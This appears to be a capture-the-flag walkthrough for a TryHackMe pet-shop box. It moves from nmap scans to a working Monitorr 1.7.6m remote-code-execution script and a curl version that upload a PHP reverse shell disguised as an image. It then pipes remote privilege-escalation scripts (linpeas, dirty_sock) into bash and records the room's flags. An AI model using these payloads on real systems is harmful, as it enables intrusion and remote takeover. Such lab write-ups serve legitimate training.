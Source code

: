 # Year of the Jellyfish
![[Screenshot 2021-04-27 at 5.57.48 PM.png]]
```
Be warned -- this box deploys with a public IP. Think about what that means for how you should approach this challenge. ISPs are often unhappy if you enumerate public IP addresses at a high speed...
```

## nmap

```sql
└─$ nmap -sC -sV -oA namp 34.244.217.52
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-26 16:56 IST
Nmap scan report for ec2-34-244-217-52.eu-west-1.compute.amazonaws.com (34.244.217.52)
Host is up (0.15s latency).
Not shown: 995 filtered ports
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 3.0.3
22/tcp   open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|_  2048 46:b2:81:be:e0:bc:a7:86:39:39:82:5b:bf:e5:65:58 (RSA)
80/tcp   open  http     Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Did not follow redirect to https://robyns-petshop.thm/
443/tcp  open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Robyn&#039;s Pet Shop
| ssl-cert: Subject: commonName=robyns-petshop.thm/organizationName=Robyns Petshop/stateOrProvinceName=South West/countryName=GB
| Subject Alternative Name: DNS:robyns-petshop.thm, DNS:monitorr.robyns-petshop.thm, DNS:beta.robyns-petshop.thm, DNS:dev.robyns-petshop.thm
| Not valid before: 2021-04-26T11:25:37
|_Not valid after:  2022-04-26T11:25:37
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
8000/tcp open  http-alt
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Length: 15
|_    Request
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.91%I=7%D=4/26%Time=6086A389%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,3F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x2
SF:015\r\n\r\n400\x20Bad\x20Request");
Service Info: Host: robyns-petshop.thm; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.94 seconds
```

## nmap -full

```sql
└─$ nmap -p- -oN nmap_full 3.249.252.29                                                                        130 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-26 23:11 IST
Stats: 0:00:00 elapsed; 0 hosts completed (0 up), 1 undergoing Ping Scan
Ping Scan Timing: About 100.00% done; ETC: 23:11 (0:00:00 remaining)
Nmap scan report for robyns-petshop.thm (3.249.252.29)
Host is up (0.22s latency).
Not shown: 65528 filtered ports
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
443/tcp   open  https
8000/tcp  open  http-alt
8096/tcp  open  unknown
22222/tcp open  easyengine

Nmap done: 1 IP address (1 host up) scanned in 845.46 seconds
```

## web-pages
port 80
![[Screenshot 2021-04-26 at 5.06.43 PM.png]]

port 8000
![[Screenshot 2021-04-26 at 5.07.04 PM.png]]

port 443 (https)
![[Screenshot 2021-04-26 at 5.09.20 PM.png]]


## alternate dns
https://monitorr.robyns-petshop.thm
https://beta.robyns-petshop.thm
https://dev.robyns-petshop.thm

## other ports
port 8096 jellyfin 
3.249.252.29:8096


![[Screenshot 2021-04-26 at 11.19.00 PM.png]]


## exploit
1.7.6m monitorr exploit

RCE: https://www.exploit-db.com/exploits/48980
here we have can upload a image 

so we have to prepare a php file with image encoding and then upload it. 
and the thing to be taken care is that there is a extra parameter/header to be taken care of when uploading the file ie. the `"Cookie: isHuman=1"`
You can see it when intercepting the requests in BurpSuite

I initially edited the given exploit, but it was not uploading the shell. 
and after tweaking the shell file name and changing the listen port to 443(there could be a firewall) it worked

Here the shell was uploaded with `.png.pHp` but is stored with `.png.php` extension in server.

```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-

# Exploit Title: Monitorr 1.7.6m - Remote Code Execution (Unauthenticated)
# Date: September 12, 2020
# Exploit Author: Lyhin's Lab
# Detailed Bug Description: https://lyhinslab.org/index.php/2020/09/12/how-the-white-box-hacking-works-authorization-bypass-and-remote-code-execution-in-monitorr-1-7-6/
# Software Link: https://github.com/Monitorr/Monitorr
# Version: 1.7.6m
# Tested on: Ubuntu 19

import requests
import os
import sys

if len (sys.argv) != 4:
	print ("specify params in format: python " + sys.argv[0] + " target_url lhost lport")
else:
	url = sys.argv[1] + "/assets/php/upload.php"
	headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/plain, */*; q=0.01", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "X-Requested-With": "XMLHttpRequest", "Content-Type": "multipart/form-data; boundary=---------------------------31046105003900160576454225745", "Origin": sys.argv[1], "Connection": "close", "Referer": sys.argv[1], "Cookie": "isHuman=1"}

	data = "-----------------------------31046105003900160576454225745\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\"shell1.png.pHp\"\r\nContent-Type: image/gif\r\n\r\nGIF89a213213123<?php shell_exec(\"/bin/bash -c 'bash -i >& /dev/tcp/"+sys.argv[2] +"/" + sys.argv[3] + " 0>&1'\");\r\n\r\n-----------------------------31046105003900160576454225745--\r\n"
	requests.post(url, verify=False, headers=headers, data=data)

	print ("A shell script should be uploaded. Now we try to execute it")
	url = sys.argv[1] + "/assets/data/usrimg/shell1.png.php"
	headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
	requests.get(url, headers=headers, verify=False)

```

![[Screenshot 2021-04-27 at 5.48.21 PM.png]]
![[Screenshot 2021-04-27 at 5.48.32 PM.png]]


or use curl 

```bash
#prepare the php rev shell file
echo -e $'\x89\x50\x4e\x47\x0d\x0a\x1a\n<?php echo system("bash -c \'bash -i >& /dev/tcp/10.17.4.208/443 0>&1\'");' > shell.png.pHp

#uploading the file
curl -k -F "fileToUpload=@./shell.png.pHp" https://monitorr.robyns-petshop.thm/assets/php/upload.php -H "Cookie: isHuman=1"        

#calling the shell file
curl -k https://monitorr.robyns-petshop.thm/assets/data/usrimg/shell.png.php
```

![[Screenshot 2021-04-27 at 3.55.25 PM.png]]

![[Screenshot 2021-04-27 at 3.55.37 PM.png]]

![[Screenshot 2021-04-27 at 3.55.48 PM.png]]

## flag1
![[Screenshot 2021-04-27 at 4.32.05 PM.png]]

`user flag === THM{YjljMDYyZWUxYmQwMTkxYjNlMDY4YmY5}`

## root

since it have a public ip 

linpeas
`curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | bash
`

![[Screenshot 2021-04-27 at 4.41.26 PM.png]]

`10:20   0:00 /usr/lib/snapd/snapd`

![[Screenshot 2021-04-27 at 4.42.36 PM.png]]

2 CVEs??
![[Screenshot 2021-04-27 at 4.47.29 PM.png]]

CVE-2002-1614
CVE-2011-1485

linux exploit suggester
`curl https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh | bash`

![[Screenshot 2021-04-27 at 4.52.52 PM.png]]

now we are going to use the dirty sock exploit, as i have used it before and it works so good. and snapd is working too with version   2.32.5+18.04
Excellent

`curl https://raw.githubusercontent.com/initstring/dirty_sock/master/dirty_sockv2.py | python3`


![[Screenshot 2021-04-27 at 4.56.59 PM.png]]

got dirty_sock as root

![[Screenshot 2021-04-27 at 4.57.31 PM.png]]


![[Screenshot 2021-04-27 at 4.59.08 PM.png]]

`root flag == THM{ZWM5N2ViY2QxNjE4MjkxOWRiYWQ4NjUx}`

